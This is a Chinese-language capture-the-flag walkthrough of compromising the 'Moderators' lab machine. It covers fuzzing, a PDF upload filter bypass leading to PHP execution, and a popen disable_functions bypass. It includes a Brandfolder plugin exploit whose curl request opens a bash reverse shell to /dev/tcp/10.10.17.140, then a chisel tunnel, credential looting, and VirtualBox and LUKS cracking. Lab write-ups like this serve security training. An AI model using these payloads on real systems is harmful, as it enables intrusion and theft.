




# 记一次对Moderators的渗透测试 - 先知社区

记一次对Moderators的渗透测试

- - -

# 信息收集

## 端口扫描

使用nmap进行端口探测，发现其开放了22和80端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212621-2fe9e1dc-a7e0-1.png)

## web网页

没有发现可以利用的东西，就去看看web网页。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212629-34dd265e-a7e0-1.png)

发现该站点适用于某种托管服务/漏洞评估提供商。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212636-38d3cf10-a7e0-1.png)

发现有一些漏洞的测试报告。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212643-3d40b860-a7e0-1.png)

报告里面包含了主机地址、漏洞类型等。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212650-417a107a-a7e0-1.png)

## 目录爆破

接着使用feroxbuster对该站点进行目录fuzz。发现存在/logs目录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212658-463342ee-a7e0-1.png)

# 漏洞利用

发现report后面对应的都是报告的id值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212706-4ae7f8c0-a7e0-1.png)

## Wfuzz工具的使用

接着使用wfuzz对id进行fuzz，它找到了六个，其中三个我还不知道。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212713-4f3cae20-a7e0-1.png)

## 查找报告

接着使用feroxbuster，对/logs/e21cece511f43a5cb18d4932429915ed/继续fuzz

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212721-53933110-a7e0-1.png)

访问id为9798的报告看看。  
然后查看一下logs.pdf,没发现可以利用的内容。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212727-57890948-a7e0-1.png)

md5解密一下看看。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212739-5ea28b96-a7e0-1.png)

使用wfuzz对id\_hashs进行fuzz  
接着将获取到的存在的报告，对其id生成md5的hash，继续使用wfuzz进行fuzz。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212748-63e41750-a7e0-1.png)

都查看一下，发现存在一个上传接口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212758-69fa8368-a7e0-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212815-73cb3ed2-a7e0-1.png)

## 文件上传漏洞

发现一个上传接口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212821-777ae47e-a7e0-1.png)

尝试进行漏洞利用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212914-97380b70-a7e0-1.png)

提交文件的名称是“pdfFile”。

## 文件上传的过滤器

服务器上的某些东西拒绝了我的图像，因为它不是 PDF。服务器通常会通过三种方式进行这些检查，具体如下：  
● 表单提交中的MIME 类型 ( Content-Type)；  
● 文件开头的魔术字节（file命令如何工作）；  
● 和文件扩展名。  
根据[https://en.wikipedia.org/wiki/List\_of\_file\_signatures，PDF](https://en.wikipedia.org/wiki/List_of_file_signatures%EF%BC%8CPDF) 以五个字节开头%PDF-。这很容易在文件的开头添加。我将filename参数更改为z.pdf.

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212928-9fb49b4c-a7e0-1.png)

## 文件上传bypass

通过修改文件名、Content-Type、和文件开头的魔术字节。成功绕过文件上传的限制。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212941-a7754962-a7e0-1.png)

将其文件后缀名改为.php,成功上传文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212950-ac790386-a7e0-1.png)

访问一下看看，成功获取到文件内容。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231212957-b082e24e-a7e0-1.png)

接着写入phpinfo()；成功上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213006-b64a4564-a7e0-1.png)

成功访问到phpinfo文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213015-bb9940c4-a7e0-1.png)

然后查看其disable\_functions.发现大多数执行命令的函数都被禁用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213023-c042f26e-a7e0-1.png)

对disable\_functions进行Bypass  
推荐工具：[https://github.com/TarlogicSecurity/Chankro](https://github.com/TarlogicSecurity/Chankro)

```plain
<?php
error_reporting(E_ALL);

/* Add redirection so we can get stderr. */
$handle = popen('/path/to/executable 2>&1', 'r');
echo "'$handle'; " . gettype($handle) . "\n";
$read = fread($handle, 2096);
echo $read;
pclose($handle);
?>
```

利用popen函数对disable\_functions进行绕过。成功执行命令。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213044-cce8a28e-a7e0-1.png)

## 命令执行漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213052-d19ccd64-a7e0-1.png)

# 权限提升

## 反弹shell

接着使用curl进行反弹shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213127-e64ce262-a7e0-1.png)

使用nc进行监听

成功获取到shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213136-ebc90d60-a7e0-1.png)

## 查找其他站点

netstat显示了一些在 localhost 上侦听的服务：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213145-f13dd42e-a7e0-1.png)

使用curl确认它是另一个网络服务器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213153-f59e332e-a7e0-1.png)

Wordpres网站

## 搭建隧道

接着使用chisel建立隧道。  
./chisel\_1.7.7\_linux\_amd64 client 10.10.17.140:8000 R:socks

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213204-fca6e94a-a7e0-1.png)

查看其进程。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213233-0d74a794-a7e1-1.png)

进入/opt/new.site：发现一些文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213245-14fc906c-a7e1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213255-1aedd814-a7e1-1.png)

## Brandfolder 漏洞利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213306-212bd640-a7e1-1.png)

在exploitdb找到了漏洞利用脚本。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213321-2a16dc14-a7e1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213329-2ee4c788-a7e1-1.png)

使用curl触发漏洞。

```plain
curl '127.0.0.1:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=/dev/shm/&cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.17.140/5444+0>%261"'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213344-38547ce6-a7e1-1.png)

成功获取到lexi到shell。

## 获取user.txt

接着翻到了user.txt文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213357-4014fc9e-a7e1-1.png)

## SSH远程登录

接着使用ssh到ID\_rsa登录lexi用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213437-5765489a-a7e1-1.png)

## 源码分析

在插件的根目录下，有一个pwds-manager.php文件。在该文件中，有一个pms\_db\_install用于设置数据库的函数：

```plain
/*
        **Create Datatable for plugin  activation
        */
        if ( ! function_exists('pms_db_install') ){
                function pms_db_install() {
                        global $wpdb;

                        /*
                        **create pms_category datatable
                        */
                        $table_name = $wpdb->prefix . 'pms_category';
                        $sql = "CREATE TABLE $table_name (
                                id int(11) NOT NULL AUTO_INCREMENT,
                                category varchar(55) DEFAULT '' NOT NULL,
                                PRIMARY KEY  (id)
                        )ENGINE=InnoDB DEFAULT CHARSET=latin1";
                        require_once( ABSPATH . 'wp-admin/includes/upgrade.php' );
                        dbDelta( $sql );
                        $result =       $wpdb->insert(
                                $table_name,
                                array('category' =>'Uncategorized',) ,
                                array('%s')
                        );

                        /*
                        **create pms_passwords datatable
                        */
                        $table_name = $wpdb->prefix . 'pms_passwords';
                        $sql1 = "CREATE TABLE $table_name (
                                pass_id int(11) NOT NULL AUTO_INCREMENT,
                                user_name varchar(200) NOT NULL,
                                user_email varchar(200) NOT NULL,
                                user_password longtext NOT NULL,
                                category_id int(11) NOT NULL,
                                note text CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL,
                                url longtext NOT NULL,
                                PRIMARY KEY  (pass_id)
                        )ENGINE=InnoDB DEFAULT CHARSET=latin1";
                        dbDelta( $sql1 );
                }
                 register_activation_hook( __FILE__, 'pms_db_install' );
        }
```

## MYSQL登录

使用mysql -u wordpressuser -p'wordpresspassword123!!' wordpress进行登录mysql数据库。  
show tables；查看其表。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213517-6f52c982-a7e1-1.png)

使用select user\_name,user\_email,urlfromwp\_pms\_passwords;查看数据库的用户和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213526-749e73dc-a7e1-1.png)

使用select user\_name,user\_passwordfromwp\_pms\_passwords;查找ssh密钥。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213537-7b30daa0-a7e1-1.png)

接着查询pms\_encrypt\_key。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213549-82c59904-a7e1-1.png)

## SSH端口转发

然后配置DB的host代理到本地

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213600-8900d61c-a7e1-1.png)

查找数据库的登录用户和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213610-8ecf45b0-a7e1-1.png)

接着使用这个网站生成wordpress的新密码。  
[https://www.useotools.com/es/wordpress-password-hash-generator/](https://www.useotools.com/es/wordpress-password-hash-generator/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213621-95715a7a-a7e1-1.png)

## 更新数据库配置。

```plain
UPDATE `wp_users` SET `user_pass` = '$P$BqTMH6f2/YJmGLjPetfgm3MnNewMhS1' WHERE user_login = your_user_name
```

登录wordpress  
接着在本地登录wordpress

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213635-9de1e7e2-a7e1-1.png)

然后访问/wp-admin，发现了ssh的key。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213656-aa70fa52-a7e1-1.png)

## 远程登录ssh

接着继续使用新发现的id\_rsa，登录ssh。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213703-aec24e1c-a7e1-1.png)

登录之后，发现有一些脚步文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213711-b37d5d84-a7e1-1.png)

进入/stuff，发现一些文件。发现了.vbox文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213727-bd0a2b66-a7e1-1.png)

## 破解VirtualBox 加密

接着使用[https://github.com/axcheron/pyvboxdie-cracker，破解其加密。](https://github.com/axcheron/pyvboxdie-cracker%EF%BC%8C%E7%A0%B4%E8%A7%A3%E5%85%B6%E5%8A%A0%E5%AF%86%E3%80%82)  
使用scp将其下载到本地机器中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213740-c4bf62f4-a7e1-1.png)

然后使用cracker.py进行破解。其登录密码为computer*\*\**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213749-c9eaa630-a7e1-1.png)

## 本地搭建靶机

然后在本地搭建环境。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213757-ceb47a38-a7e1-1.png)

进入启动界面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213805-d36053b8-a7e1-1.png)

输入computer密码。成功开机。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213816-da05f1c8-a7e1-1.png)

## 爆破磁盘密码

接着打开终端，然后映射磁盘文件到本地机器。  
然后爆破出磁盘密码为abc123

```plain
ubuntu@ubuntu:~$ ./bruteforce-luks-static-linux-amd64 -f wordlist.txt /dev/sda
Password found: abc123
ubuntu@ubuntu:~$
```

## 负载驱动

接着通过grep去检查这些root文件。  
grep -r pass .

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213841-e92570a2-a7e1-1.png)

在all-in-one/distro\_update.sh中，有一个密码：  
./all-in-one/distro\_update.sh:passwd='$\_THE\_best\_Sysadmin*Ever*'  
然后使用sudo -l 登录root

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213852-ef655ffe-a7e1-1.png)

## 获取root.txt

最后成功找到了root.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231231213901-f4ffe3bc-a7e1-1.png)

总结  
该靶机为困难模式的靶机，靶机涵盖了大量知识点和一些新奇的工具使用。涵盖了文件上传、命令执行及对文件上传的bypass、绕过php\_disbale\_function等、还包含了wordpress的漏洞利用、破解VirtualBOX虚拟机的加密、爆破磁盘密码等。建议感兴趣的同学也可以尝试一下。
